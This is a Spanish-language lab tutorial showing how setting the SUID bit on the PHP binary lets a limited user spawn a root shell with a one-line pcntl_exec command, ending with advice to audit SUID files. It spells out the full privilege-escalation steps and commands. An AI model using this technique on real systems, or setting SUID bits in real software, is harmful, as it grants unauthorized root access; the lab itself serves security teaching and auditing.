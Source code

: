 
---
# Laboratorio: Abuso de privilegios SUID con PHP

---

## Contexto

Los archivos con el bit SUID (Set User ID) permiten que cualquier usuario que los ejecute obtenga temporalmente los privilegios del propietario del archivo, usualmente `root`. En este laboratorio, configuraremos el binario `php` para que tenga el bit SUID activo y luego utilizaremos una técnica para escalar privilegios a root.

---

## Paso 1: Comprobar la ubicación y permisos del binario PHP

```bash
which php
# /usr/bin/php

ls -l /usr/bin/php
# lrwxrwxrwx 1 root root ... /usr/bin/php -> /etc/alternatives/php

ls -l /etc/alternatives/php
# lrwxrwxrwx 1 root root ... /etc/alternatives/php -> /usr/bin/php8.3

ls -l /usr/bin/php8.3
# -rwxr-xr-x 1 root root ... /usr/bin/php8.3
````

Explicación: verificamos que `php` es un enlace simbólico que finalmente apunta al binario `/usr/bin/php8.3`.

---

## Paso 2: Activar el bit SUID en el binario PHP

```bash
chmod u+s /usr/bin/php8.3
```

Explicación: asignamos el bit SUID al binario para que cualquier usuario que ejecute PHP lo haga con permisos de root.

---

## Paso 3: Cambiar al usuario limitado y ejecutar el código PHP para escalar privilegios

```bash
su Metahumo
php -r "pcntl_exec('/bin/sh', ['-p']);"
```

Explicación: con la opción `-r` ejecutamos código PHP inline que llama a `pcntl_exec` para lanzar una shell con el flag `-p` que preserva privilegios elevados.

---

## Paso 4: Verificar el escalado de privilegios

```bash
whoami
# root
bash -p 
# bash-5.1#
```

Explicación: confirmamos que ahora tenemos una shell con privilegios de root, demostrando el abuso del bit SUID en el binario PHP. Obtenemos una bash con privilegios root con el parámetro `-p` 

---

## Conclusiones

- El bit SUID puede ser un vector crítico para escalar privilegios si se establece en binarios que permitan ejecución arbitraria de código o comandos.
    
- PHP, aunque no suele tener el bit SUID por defecto, puede ser abusado para obtener shell root si se le asigna este permiso.
    
- Es fundamental auditar los archivos con SUID activado y restringir su uso para minimizar riesgos de escalada de privilegios.
    

---

